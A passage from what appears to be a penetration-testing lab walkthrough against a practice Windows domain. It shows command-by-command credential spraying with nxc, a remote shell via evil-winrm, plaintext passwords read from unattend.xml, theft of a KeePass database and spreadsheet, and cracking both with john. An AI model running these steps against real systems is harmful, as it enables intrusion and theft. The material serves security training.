        $smoBackup.BackupSetDescription = "Full Backup of " + $dbName
        $smoBackup.BackupSetName = $dbName + " Backup"
        $smoBackup.Database = $dbName
        $smoBackup.MediaDescription = "Disk"
        $smoBackup.Devices.AddDevice($targetPath, "File")
        $smoBackup.SqlBackup($server) 
        "backed up $dbName ($serverName) to $targetPath"                 
    }
}

if([Int] (Get-Date).Day -eq 1)
{
    Get-ChildItem "$backupDirectory\*_monthly.bak" |? { $_.lastwritetime -le (Get-Date).AddMonths(-$monthsToStoreMonthlyBackups)} |% {Remove-Item $_ -force }
    "removed all previous monthly backups older than $monthsToStoreMonthlyBackups days"

    foreach ($database in $dbs | where { $_.IsSystemObject -eq $False})
    {
        $dbName = $database.Name      

        $timestamp = Get-Date -format yyyy-MM-dd-HHmmss
        $targetPath = $backupDirectory + "\" + $dbName + "_" + $timestamp + "_monthly.bak"

        $smoBackup = New-Object ("Microsoft.SqlServer.Management.Smo.Backup")
        $smoBackup.Action = "Database"
        $smoBackup.BackupSetDescription = "Full Backup of " + $dbName
        $smoBackup.BackupSetName = $dbName + " Backup"
        $smoBackup.Database = $dbName
        $smoBackup.MediaDescription = "Disk"
        $smoBackup.Devices.AddDevice($targetPath, "File")
        $smoBackup.SqlBackup($server) 
        "backed up $dbName ($serverName) to $targetPath"                 
    }
}                                                                                                                                                                                                                                    

```

```
nxc smb 172.16.8.3 -u backupadm -p '!qazXSW@'         
SMB         172.16.8.3      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\backupadm:!qazXSW@

```

```bash
 nxc winrm 172.16.8.0/24 -u backupadm -p '!qazXSW@'
WINRM       172.16.8.3      5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL) 
WINRM       172.16.8.20     5985   ACADEMY-AEN-DEV  [*] Windows 10 / Server 2019 Build 17763 (name:ACADEMY-AEN-DEV) (domain:INLANEFREIGHT.LOCAL) 
WINRM       172.16.8.50     5985   ACADEMY-AEN-MS0  [*] Windows 10 / Server 2019 Build 17763 (name:ACADEMY-AEN-MS0) (domain:INLANEFREIGHT.LOCAL) 
WINRM       172.16.8.3      5985   DC01             [-] INLANEFREIGHT.LOCAL\backupadm:!qazXSW@
WINRM       172.16.8.20     5985   ACADEMY-AEN-DEV  [-] INLANEFREIGHT.LOCAL\backupadm:!qazXSW@
WINRM       172.16.8.50     5985   ACADEMY-AEN-MS0  [+] INLANEFREIGHT.LOCAL\backupadm:!qazXSW@ (Pwn3d!)

```

```bash
 evil-winrm -i 172.16.8.50 -u backupadm -p '!qazXSW@'
```

 ```bash
 *Evil-WinRM* PS C:\Users\backupadm\Desktop> cd c:\
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/1/2022   2:17 PM                panther
d-----        2/25/2022  10:20 AM                PerfLogs
d-r---        6/22/2022  11:47 PM                Program Files
d-----         6/1/2022   2:23 PM                Program Files (x86)
d-r---       11/14/2026  11:54 AM                Users
d-----        6/23/2022  12:07 AM                Windows
-a----         6/1/2022   2:17 PM         186880 budget_data.xlsx
-a----         6/1/2022   2:21 PM           2190 Inlanefreight.kdbx


*Evil-WinRM* PS C:\> cd panther
*Evil-WinRM* PS C:\panther> ls


    Directory: C:\panther


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/1/2022   2:17 PM           6995 unattend.xml

 ```

```
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="oobeSystem">
        <component name="Microsoft-Windows-International-Core" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <InputLocale>de-de</InputLocale>
            <SystemLocale>de-de</SystemLocale>
            <UILanguage>de-de</UILanguage>
            <UILanguageFallback>de-de</UILanguageFallback>
            <UserLocale>de-de</UserLocale>
        </component>
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <OOBE>
                <HideEULAPage>true</HideEULAPage>
                <HideWirelessSetupInOOBE>true</HideWirelessSetupInOOBE>
                <NetworkLocation>Work</NetworkLocation>
                <ProtectYourPC>1</ProtectYourPC>
            </OOBE>
            <AutoLogon>
                <Password>
                    <Value>Sys26Admin</Value>
                    <PlainText>true</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <LogonCount>1</LogonCount>
                <Username>ilfserveradm</Username>
            </AutoLogon>
            <FirstLogonCommands>
                <SynchronousCommand wcm:action="add">
                    <CommandLine>C:\Windows\system32\net.exe user "Standard" /logonpasswordchg:yes</CommandLine>
                    <Description>Force Password Reset for Standard account</Description>
                    <Order>1</Order>
                    <RequiresUserInput>false</RequiresUserInput>
                </SynchronousCommand>
                <SynchronousCommand wcm:action="add">
                    <CommandLine>reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoLogonSID /d "" /f</CommandLine>
                    <Description>Clear Autologon SID</Description>
                    <Order>2</Order>
                    <RequiresUserInput>false</RequiresUserInput>
                </SynchronousCommand>
                <SynchronousCommand wcm:action="add">
                    <CommandLine>reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName /d "Standard" /f</CommandLine>
                    <Description>Select Standard account</Description>
                    <Order>3</Order>
                    <RequiresUserInput>false</RequiresUserInput>
                </SynchronousCommand>
                <SynchronousCommand wcm:action="add">
                    <CommandLine>reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v ForceUnlockLogon /d 0 /f /t REG_DWORD</CommandLine>
                    <Description>Clear unlock</Description>
                    <Order>4</Order>
                    <RequiresUserInput>false</RequiresUserInput>
                </SynchronousCommand>
                <SynchronousCommand wcm:action="add">
                    <CommandLine>reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v ForceAutoLogon /d 0 /f /t REG_DWORD</CommandLine>
                    <Description>Clear autologon</Description>
                    <Order>5</Order>
                    <RequiresUserInput>false</RequiresUserInput>
                </SynchronousCommand>
                <SynchronousCommand wcm:action="add">
                    <CommandLine>reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v IsConnectedAutoLogon /d 0 /f /t REG_DWORD</CommandLine>
                    <Description>Clear isconnected</Description>
                    <Order>6</Order>
                    <RequiresUserInput>false</RequiresUserInput>
                </SynchronousCommand>
                <SynchronousCommand wcm:action="add">
                    <CommandLine>reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /t REG_SZ /d 0 /f</CommandLine>
                    <Description>Disable Autologon</Description>
                    <Order>7</Order>
                    <RequiresUserInput>false</RequiresUserInput>
                </SynchronousCommand>
                <SynchronousCommand wcm:action="add">
                    <CommandLine>reg delete "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /f</CommandLine>
                    <Description>Remove Autologon password</Description>
                    <Order>8</Order>
                    <RequiresUserInput>false</RequiresUserInput>
                </SynchronousCommand>
                <SynchronousCommand wcm:action="add">
                    <CommandLine>shutdown /r /t 180</CommandLine>
                    <Description>Restart computer after 180 seconds</Description>
                    <Order>9</Order>
                    <RequiresUserInput>false</RequiresUserInput>
                </SynchronousCommand>
            </FirstLogonCommands>
            <UserAccounts>
                <LocalAccounts>
                    <LocalAccount wcm:action="add">
                        <Password>
                            <Value>Sys26Admin</Value>
                            <PlainText>true</PlainText>
                        </Password>
                        <Description />
                        <DisplayName />
                        <Group>User</Group>
                        <Name>ilfserveradm</Name>
                    </LocalAccount>
                </LocalAccounts>
            </UserAccounts>
            <TimeZone>W. Europe Standard Time</TimeZone>
        </component>
    </settings>
    <settings pass="generalize">
        <component name="Microsoft-Windows-PnpSysprep" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <DoNotCleanUpNonPresentDevices>true</DoNotCleanUpNonPresentDevices>
            <PersistAllDeviceInstalls>true</PersistAllDeviceInstalls>
        </component>
    </settings>
    <settings pass="specialize">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <CopyProfile>true</CopyProfile>
        </component>
    </settings>
</unattend>

```

```
*Evil-WinRM* PS C:\> download budget_data.xlsx
                                        
Info: Downloading C:\\budget_data.xlsx to budget_data.xlsx
                                        
Info: Download successful!
*Evil-WinRM* PS C:\> download Inlanefreight.kdbx
                                        
Info: Downloading C:\\Inlanefreight.kdbx to Inlanefreight.kdbx
                                        
Info: Download successful!
*Evil-WinRM* PS C:\> 

```

```
keepass2john Inlanefreight.kdbx > Inlanefreight.hash
                                                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/labs/aen]
└─$ john Inlanefreight.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Welcome1         (Inlanefreight)     
1g 0:00:02:20 DONE (2026-11-14 13:05) 0.007139g/s 288.4p/s 288.4c/s 288.4C/s alfiemoon..Thomas1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

```
file budget_data.xlsx                   
budget_data.xlsx: CDFV2 Encrypted
                                                                                                                
┌──(kali㉿kali)-[~/labs/aen]
└─$ office2john budget_data.xlsx > budget_data.hash  
                                                                                                                
┌──(kali㉿kali)-[~/labs/aen]
└─$ john budget_data.hash --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
lucky7           (budget_data.xlsx)     
1g 0:00:00:01 DONE (2026-11-14 13:27) 0.5050g/s 436.3p/s 436.3c/s 436.3C/s michelle1..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

## RDP access

```
*Evil-WinRM* PS C:\Users\backupadm\Documents> net user ilfserveradm
User name                    ilfserveradm
Full Name                    ilfserveradm
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/1/2022 1:17:17 PM
Password expires             Never
Password changeable          6/1/2022 1:17:17 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/1/2022 1:17:17 PM

Logon hours allowed          All

Local Group Memberships      *Remote Desktop Users
Global Group memberships     *None
The command completed successfully.


```


